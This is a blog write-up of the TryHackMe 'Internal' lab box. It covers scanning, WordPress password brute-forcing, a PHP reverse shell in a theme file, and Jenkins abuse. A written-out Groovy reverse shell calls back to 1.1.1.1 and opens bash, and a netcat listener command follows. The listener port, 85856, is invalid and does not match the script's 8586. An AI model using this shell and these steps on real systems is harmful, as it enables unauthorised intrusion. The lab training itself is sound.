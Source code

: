 ```yaml
---
title: THM - Internal
author: z3nn
date: 2020-09-25 19:53:00 +0200
categories: [Hacking, TryHackMe]
description: TryHackMe Internal Windows Box
tags: [tryhackme, internal, windows, offensive pentest, security, security missconfiguration, pentest]
---
```


# TryHackMe - Internal
A write-up to the Relevant machine provided by [TryHackMe](https://tryhackme.com/) and created by [TheMayor](https://twitter.com/joehelle). This machine is part of the `Offensive Pentesting` learning path from THM in the `Advanced Exploitation` Section being rated as a `Hard` difficulty.... Let's get to it.

The description of this machine is quite nice, having a roleplay in it to put you into the mindset of a pentester that needs to gather information about it's target (`recon`).

> You might notice the machine IP changing a few times in this write-up... that's because I wrote this the day after I completed the challenge and I had to stop / start the machine as needed to get back some information.

# Recon
Starting off with a recon on the machine to see what ports are open, what services are active, etc.

```
$ nmap -sS -sV -oA internal-vuln --script=default,vuln -p- -T5 10.10.231.241
[sudo] password for z3nn:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 19:55 EEST
Nmap scan report for 10.10.231.241
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey:
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
| vulners:
|   cpe:/a:openbsd:openssh:7.6p1:
|       CVE-2008-3844   9.3     https://vulners.com/cve/CVE-2008-3844
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2019-16905  4.4     https://vulners.com/cve/CVE-2019-16905
|       CVE-2007-2768   4.3     https://vulners.com/cve/CVE-2007-2768
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2014-9278   4.0     https://vulners.com/cve/CVE-2014-9278
|_      CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Apache2 Ubuntu Default Page: It works
| vulners:
|   cpe:/a:apache:http_server:2.4.29:
|       CVE-2010-0425   10.0    https://vulners.com/cve/CVE-2010-0425
|       CVE-1999-1412   10.0    https://vulners.com/cve/CVE-1999-1412
|       CVE-1999-1237   10.0    https://vulners.com/cve/CVE-1999-1237
|       CVE-1999-0236   10.0    https://vulners.com/cve/CVE-1999-0236
|       CVE-2009-1955   7.8     https://vulners.com/cve/CVE-2009-1955
|       CVE-2007-6423   7.8     https://vulners.com/cve/CVE-2007-6423
|       CVE-2007-0086   7.8     https://vulners.com/cve/CVE-2007-0086
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       CVE-2009-3095   7.5     https://vulners.com/cve/CVE-2009-3095
|       CVE-2007-4723   7.5     https://vulners.com/cve/CVE-2007-4723
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       CVE-2009-1891   7.1     https://vulners.com/cve/CVE-2009-1891
|       CVE-2009-1890   7.1     https://vulners.com/cve/CVE-2009-1890
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2008-2579   6.8     https://vulners.com/cve/CVE-2008-2579
|       CVE-2007-5156   6.8     https://vulners.com/cve/CVE-2007-5156
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2019-10097  6.0     https://vulners.com/cve/CVE-2019-10097
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-10081  5.0     https://vulners.com/cve/CVE-2019-10081
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2014-0231   5.0     https://vulners.com/cve/CVE-2014-0231
|       CVE-2011-1752   5.0     https://vulners.com/cve/CVE-2011-1752
|       CVE-2010-1452   5.0     https://vulners.com/cve/CVE-2010-1452
|       CVE-2010-0408   5.0     https://vulners.com/cve/CVE-2010-0408
|       CVE-2009-2699   5.0     https://vulners.com/cve/CVE-2009-2699
|       CVE-2007-0450   5.0     https://vulners.com/cve/CVE-2007-0450
|       CVE-2005-1268   5.0     https://vulners.com/cve/CVE-2005-1268
|       CVE-2003-0020   5.0     https://vulners.com/cve/CVE-2003-0020
|       CVE-2001-1556   5.0     https://vulners.com/cve/CVE-2001-1556
|       CVE-1999-0678   5.0     https://vulners.com/cve/CVE-1999-0678
|       CVE-1999-0289   5.0     https://vulners.com/cve/CVE-1999-0289
|       CVE-1999-0070   5.0     https://vulners.com/cve/CVE-1999-0070
|       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
|       CVE-2009-1195   4.9     https://vulners.com/cve/CVE-2009-1195
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       CVE-2011-1783   4.3     https://vulners.com/cve/CVE-2011-1783
|       CVE-2010-0434   4.3     https://vulners.com/cve/CVE-2010-0434
|       CVE-2008-2939   4.3     https://vulners.com/cve/CVE-2008-2939
|       CVE-2008-2168   4.3     https://vulners.com/cve/CVE-2008-2168
|       CVE-2008-0455   4.3     https://vulners.com/cve/CVE-2008-0455
|       CVE-2007-6420   4.3     https://vulners.com/cve/CVE-2007-6420
|       CVE-2007-6388   4.3     https://vulners.com/cve/CVE-2007-6388
|       CVE-2007-5000   4.3     https://vulners.com/cve/CVE-2007-5000
|       CVE-2007-4465   4.3     https://vulners.com/cve/CVE-2007-4465
|       CVE-2007-1349   4.3     https://vulners.com/cve/CVE-2007-1349
|       CVE-2007-6422   4.0     https://vulners.com/cve/CVE-2007-6422
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2007-6421   3.5     https://vulners.com/cve/CVE-2007-6421
|_      CVE-2001-0131   1.2     https://vulners.com/cve/CVE-2001-0131
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.98 seconds
```

Not many open ports unlike other machines, just a 22 and 80... but what's running on that port 80 is interesting. First impressions is that it's just a basic apache2 instalation and that's all, nothing much to it... but our scan reveals a bit more information

## The blog
There is a `/blog/` which appears to be some sort of wordpress blog... one problem, it looks fucked... just look at it...

![blog1](/assets/img/posts/thm_internal_blog1.jpg)

Checking the dev console... and some of the page links I noticed something, the missing refferences where pointing to `internal.htm`, a host which I didn't setup in my `/etc/hosts` file because I was lazy... let's do that

![blog2](/assets/img/posts/thm_internal_blog2.jpg)

Now it loos better :) ... back to hacking

Looking through what the webapp has to offer a tried a few things:
- exploiting xmlrpc.php (using metasploit)
- exploting phpmyadmin (using metasploit)


None of these were fruitfull, I resorted to trying to brutforce passwords in PhpMyAdmin and the Wordpress app. For wordpress I noticed on the first post that the Author was `Admin` so I used that as my username and for PhpMyAdmin I used the default `root` user.

I had success with WPscan to bruteforce the password for `admin`. 

Looking throught the Wordpress dashboard for admin I found a Private post that had credentials for good ol' Will... Will's credentials were useless.

### Gaining a foothold
One vulnerability here is the ability to edit the PHP files of Wordpress, so that's what we'll do.... Addidng the code for a PHP Reverse shell in the 404.php file does the trick.

We now have access ass `www-data`. Looking through `/home` we see there is no `will` user so that set of credentials was a total waste.... enumeraitng

> a few years of enumeration later

There's a `.txt` file hidden in /opt that has credentials for our user.

# PrivEsc

In the home of our user we can see a `jenkins.txt` file informs us of an internal Jenkins service running on a specific IP and port. 

We are going to forward it to our attacking machine:
```shell
ssh -L 9595:172.17.0.2:8080 aubreanna@internal.thm
```

After this we can now access the Jenkins app in our browser with: `http://127.0.0.1:9595`. There's no easy way from here, just brute force for the jenkins password.

After credentials are obtained next thing we can do is abuse the Groovy Script console to get Shell.
Go To `Manage Jenkins` > `Script Console` and add the following script.

```groovy
String host="1.1.1.1";
int port=8586;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Open a netcat listener on attacking machine on the same port as the one in our Groovy script:
```
nc -lnvp 85856
```

Run the groovy script. We now have a reverse shell as Jenkins. This time I went straight to check the `/opt` directory to see if this machine has something else there... surprise, there's root credentials

> ssh into the machine using the root credentials and get flag.